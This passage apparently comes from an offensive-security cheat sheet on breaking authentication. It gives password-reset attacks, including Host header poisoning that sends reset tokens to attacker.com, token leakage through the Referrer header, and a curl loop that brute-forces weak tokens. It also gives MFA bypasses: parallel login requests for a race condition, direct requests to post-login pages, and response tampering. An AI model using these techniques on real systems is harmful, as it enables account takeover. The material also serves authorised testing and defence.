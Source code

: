 #### Host Header Poisoning

```
POST /reset-password HTTP/1.1
Host: attacker.com
...

# Original email link: https://example.com/reset?token=TOKEN
# Modified link: https://attacker.com/reset?token=TOKEN
```

#### Token Leakage in Referrer

```
# Password reset page leaks token in URL
https://example.com/reset?token=a1b2c3d4e5f6

# If the page has external resources, token may leak in Referrer header
```

#### Token Predictability

```
# Simple timestamps or sequential tokens
reset_1649152871
reset_1649152872

# Weak tokens
for i in {1000..9999}; do curl https://example.com/reset?token=$i; done
```

### 8. MFA Bypass Techniques

#### Race Conditions

```
# Make multiple simultaneous authentication requests
curl -s -X POST https://example.com/login -d "username=admin&password=password" &
curl -s -X POST https://example.com/login -d "username=admin&password=password" &
curl -s -X POST https://example.com/login -d "username=admin&password=password" &
```

#### Direct Request to Post-Authentication Page

```
# Skip MFA verification by directly accessing protected pages
GET /dashboard HTTP/1.1
Cookie: session=VALID_SESSION_WITHOUT_MFA
```

#### Response Manipulation

```
# If client receives a JSON response indicating MFA requirement
{"status":"mfa_required","redirect":"/mfa-verification"}

# Modify to:
{"status":"success","redirect":"/dashboard"}
```
